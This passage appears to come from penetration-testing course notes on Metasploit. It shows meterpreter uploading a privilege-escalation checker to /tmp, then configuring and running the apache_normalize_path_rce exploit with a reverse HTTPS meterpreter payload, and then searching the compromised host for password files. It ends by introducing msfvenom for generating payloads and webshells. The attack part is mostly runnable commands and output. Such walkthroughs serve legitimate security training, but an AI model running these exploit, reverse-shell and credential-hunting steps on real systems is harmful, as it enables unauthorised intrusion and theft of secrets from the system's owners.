 ```bash
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
[*] uploading  : /usr/bin/unix-privesc-check -> /tmp/
[*] uploaded   : /usr/bin/unix-privesc-check -> /tmp//unix-privesc-check

meterpreter > ls /tmp
Listing: /tmp
=============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100644/rw-r--r--  36801    fil   2022-08-08 05:26:15 -0400  unix-privesc-check
```

```bash
msf6 > search type:exploit apache_normalize_path_rce

msf6 > use 0

msf6 exploit(multi/http/apache_normalize_path_rce) > search linux/x64/meterpreter_reverse_https

msf6 exploit(multi/http/apache_normalize_path_rce) > set payload payload/linux/x64/meterpreter_reverse_https

msf6 exploit(multi/http/apache_normalize_path_rce) > info

msf6 exploit(multi/http/apache_normalize_path_rce) > set RHOSTS 192.168.XXX.XXX
RHOSTS => 192.168.XXX.XXX

msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
SSL => false

msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
RPORT => 80

msf6 exploit(multi/http/apache_normalize_path_rce) > set LHOST 192.168.XXX.XXX
LHOST => 192.168.XXX.XXX

msf6 exploit(multi/http/apache_normalize_path_rce) > set LPOST 4444
[!] Unknown datastore option: LPORT. Did you mean LPORT?
LPORT => 4444

msf6 exploit(multi/http/apache_normalize_path_rce) > run
meterpreter > search -f passwords
```

### Executable Payloads

Metasploit also provides the functionality to export payloads into various file types and formats such as Windows and Linux binaries, webshells, and more. Metasploit contains msfvenom1 as a standalone tool to generate these payloads. It provides standardized command line options and includes various techniques to customize payloads.
